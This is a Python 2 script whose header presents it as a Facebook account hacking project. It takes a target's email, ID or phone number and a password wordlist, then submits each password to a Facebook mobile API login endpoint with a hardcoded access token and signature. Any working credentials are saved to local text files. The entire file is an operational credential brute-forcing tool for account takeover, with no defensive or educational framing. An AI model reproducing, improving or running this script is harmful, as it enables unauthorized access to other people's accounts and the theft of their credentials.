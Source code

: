 # Badr-faecbook
# Engineer Badr Nasser El-Badri 
# Facebook account hacking project
import os, sys, time, datetime, random, json
from multiprocessing.pool import ThreadPool
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
else:
    try:
        import requests
    except ImportError:
        os.system('pip2 install requests')

from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

internet = '\n\x1b[33;1m     \xe2\x95\xad\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x97\xa2\xe2\x97\xa4\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x95\xae\n\x1b[33;1m     \xe2\x94\x83\xe2\x94\x8f\xe2\x94\x93\xe2\x94\x8f\xe2\x94\x81\xe2\x94\x81\xe2\x94\xb3\xe2\x97\xa2\xe2\x97\xa4\xe2\x94\xb3\xe2\x94\x93\xe2\x95\xb1\xe2\x95\xb1\xe2\x95\xb1\xe2\x94\x83\x1b[32;1m Cheking Acces\n\x1b[33;1m     \xe2\x94\x83\xe2\x94\x83\xe2\x94\xa3\xe2\x94\xab\xe2\x95\xb1\xe2\x95\xb1\xe2\x97\xa2\xe2\x97\xa4\xe2\x95\xb1\xe2\x95\xb1\xe2\x94\xa3\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x83\x1b[32;1m    Internet\n\x1b[33;1m     \xe2\x94\x83\xe2\x94\x97\xe2\x94\x9b\xe2\x94\x97\xe2\x94\x81\xe2\x97\xa2\xe2\x97\xa4\xe2\x94\xbb\xe2\x94\xbb\xe2\x94\xbb\xe2\x94\x9b\xe2\x95\xb1\xe2\x95\xb1\xe2\x95\xb1\xe2\x94\x83\n\x1b[33;1m     \xe2\x95\xb0\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x97\xa2\xe2\x97\xa4\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x95\xaf\n\x1b[35;1m--------------------------------------'
banner = '\n\033[31;1m____ ____ ____ ____ ___  ____ ____ _  _\n|___ |__| |    |___ |__] |  | |  | |_/\n\033[37;1m|    |  | |___ |___ |__] |__| |__| | \_\n\033[31;1m          _  _ ____ ____ _  _ ____ ____\n          |__| |__| |    |_/  |___ |__/\n\033[37;1m          |  | |  | |___ | \_ |___ |  \\\n\033[36;1mCreated By\033[31;1m :\033[32;1m Seluruh grup \033[32;1m[\033[37;1mD4RKN355 T34M\033[32;1m]\n\033[35;1m------------------------------------------'


def ceknet():
    try:
    	os.system('reset')
        print internet
        print '\r\033[37;1m[\x1b[92m+\033[37;1m] \033[37;1mMeriksa Koneksi Internet'
        time.sleep(2)
        toolbar_width = 25
        sys.stdout.write('[%s]' % ('-\033[37;1m' * toolbar_width))
        sys.stdout.flush()
        for i in range(toolbar_width):
            sys.stdout.write('\r')
            sys.stdout.flush()
            sys.stdout.write('\033[37;1m[')
            sys.stdout.write('\033[36;1m#\033[37;1m' * (i + 1))
            sys.stdout.flush()
            time.sleep(5.0 / 100)
        try:
            rq = requests.get('http://facebook.com')
            time.sleep(3.5)
            print '\033[37;1m] \033[35;1m~> \033[32;1mSucces '
            time.sleep(2.0)
            start()
        except requests.exceptions.ConnectionError:
            time.sleep(3.5)
            print '\033[37;1m]\033[35;1m ~>\033[31;1m Tidak Ada koneksi'
            time.sleep(1.5)
            sys.exit()

    except KeyboardInterrupt:
    	time.sleep(3.5)
        exit('\n\033[37;1m[\x1b[92mx\033[37;1m] \033[31;1mProgram berhenti\n')

def start():
        try:
            os.system('reset')
            print banner
            email = raw_input('\033[34;1m[\033[37;1m~\033[34;1m]\033[37;1m ID \033[36;1m| \033[37;1mEmail\033[36;1m | \033[37;1mHP \033[31;1m: \033[32;1m')
            passw = raw_input('\033[34;1m[\033[37;1m~\033[34;1m]\033[37;1m File Wordlist   \033[31;1m:\033[32;1m ')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[34;1m[\033[37;1m^\033[34;1m] \033[37;1mTarget\033[36;1m :\033[32;1m ' + email
            time.sleep(3.0)
            print '\033[34;1m[\033[37;1m^\033[34;1m] \033[37;1mTotal List \033[36;1m:\033[32;1m ' + str(len(total))
            time.sleep(3.0)
            print
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[32;1m[\033[37;1m=\033[32;1m]\033[34;1m Start \033[37;1m>\033[35;1m '+email+'\033[37;1m >\033[35;1m '+pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('succes.txt', 'w')
                        dapat.write('[ID]=> ' + email + '\n')
                        dapat.write('[PW]=> ' + pw)
                        dapat.close()
                        print '\n\n\033[32;1m[+] \033[37;1mPASSWORD FOUND'
                        print '\033[32;1m[+] \033[37;1mUsername \033[32;1m: \033[35;1m'+email
                        print '\033[32;1m[+] \033[37;1mPassword \033[32;1m:\033[35;1m '+pw
                        print '\033[32;1m[+] \033[37;1mStatus   \033[32;1m:\033[32;1m SUCCES'
                        print '\033[32;1m[=] \033[37;1mProgram Finish'
                        sys.exit()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('succesCP.txt', 'w')
                            ceks.write('[ID]=> ' + email + '\n')
                            ceks.write('[PW]=> ' + pw)
                            ceks.close()
                            print '\n\n\033[33;1m[+] \033[37;1mPASSWORD FOUND'
                            print '\033[33;1m[+] \033[37;1mUsername \033[32;1m: \033[35;1m'+email
                            print '\033[33;1m[+] \033[37;1mPassword \033[32;1m:\033[35;1m '+pw
                            print '\033[33;1m[+] \033[37;1mStatus   \033[32;1m:\033[33;1m CHEKPOINT'
                            print '\033[33;1m[=] \033[37;1mProgram Finish'
                            sys.exit()
                except requests.exceptions.ConnectionError:
                    print '\033[37;1m[\033[32;1mx\033[37;1m] \033[31;1mkoneksi error'
                    sys.exit()

        except IOError:
            print '\033[37;1m[\033[32;1mx\033[37;1m] \033[37;1mAlamat wordlist tidak ada'
            print '\033[37;1m[\033[32;1mx\033[37;1m] \033[37;1mSaya sarankan Untuk Membuatnya sendiri'
            sys.exit()

ceknet()
